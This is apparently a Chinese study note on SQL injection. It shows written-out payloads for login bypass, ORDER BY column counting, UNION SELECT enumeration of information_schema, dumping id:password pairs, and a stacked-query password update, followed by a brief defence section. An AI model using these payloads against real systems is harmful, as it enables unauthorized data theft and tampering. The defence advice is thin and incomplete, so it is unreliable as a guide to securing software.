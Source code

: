 ```yaml
---
title: SQL注入
date: 2022-06-27 14:31:24
tags:
categories:
---
```


# SQL注入

[启蒙](https://www.cnblogs.com/ichunqiu/p/9604564.html)

## 攻击

### 绕过密码登录

（也叫条件注入）

![image-20220418151828925](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418151828925.png)

![image-20220418150656284](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418150656284.png)

![image-20220418150718927](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418150718927.png)

只要username正确，那么直接绕过密码了:)

原因是sql语句被恶意篡改成了

```
SELECT * FROM user WHERE id = 4 OR TRUE AND password = ${password};
```





如果它不过滤查询字符串，它将给出如下错误：

第5行的Article.php中的5MySQL语法错误

则该网站易受攻击



简单检查密码

```java
    @NotBlank(message = "密码不能为空")
    @Pattern(regexp = "^(?![0-9]+$)(?![a-zA-Z]+$)[0-9A-Za-z]{8,32}$",message = "密码不符合格式要求")
    private String password;
```





### 查看数据库某表的列数

![image-20220418151803683](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418151803683.png)

![image-20220418151653801](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418151653801.png)

![image-20220418153235568](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418153235568.png)



（原语法：order by + 列名，以某列的值作排序的依据）

（如果是数字的话，则相当于用各列的下标来表示各列）

不断增大order by后的数字

不报错，就说明该列存在

报错了，就说明当前表的列数是它减一:)



Ps：



### 查看数据库中所有得表名

![image-20220418155712707](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418155712707.png)

![image-20220418155741695](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418155741695.png)

![image-20220418160326964](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418160326964.png)

原本要返回的本来是当前班级的学生列表的

每个学生的信息包括：ID和姓名

这sql注入直接利用UNION把数据库里所有的表名当成学生数据返回了



注入部分

```
1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables--
```

字段解释：

1 —— 班级id

UNION —— 把两个select的结果连接起来

（理所当然的要求前后两个select的列数要一致）

（这也是为什么要获取列数的原因）



1,table_name,3,4 —— 是第二个select语句的各列



information_schema.tables —— 是所有数据库都有的一张表，包含了所有表的表名

（新建的表一般在末尾，前面的都是mysql自带的一些表）



### 获取所有列名:)

切入口和上面一致

注入的sql

```sql
1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns--
```

![image-20220418160853376](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418160853376.png)

:) :) :)



### 获取密码

首先是查看user表的列名

![image-20220418161435037](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418161435037.png)

注入的sql

```sql
1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='user'--
```

获取密码

用户名：密码

![image-20220418161713453](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418161713453.png)

注入的sql

```sql
1 UNION SELECT 1,concat(id,0x3a,password),3,4 FROM user--
```



### 时间盲注

![image-20220418164445613](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418164445613.png)







## 攻击的特殊手段

--可以把后面的语句给注释掉

null不会导致任何类型转换错误

OR TRUE

UNION 可以理所当然得把查询语句嵌进来（得先用ORDER BY把列数试出来）

### 堆叠注入局限

就是输入类似`1;update user set password = '12345' where id =1`这种方式

让执行完查询语句后在执行更新语句，以达到我们的目的

但是很遗憾，这种方式有很大的局限性

主要就是我们常用的ORM框架并不支持同时执行多条sql语句，因此很难实现注入

据了解，这种方式在php语言中可以成功实践。




## 防范

Integer类型反而不容易被注入

```java
public String checkRow(Integer id){
    ...
}
```

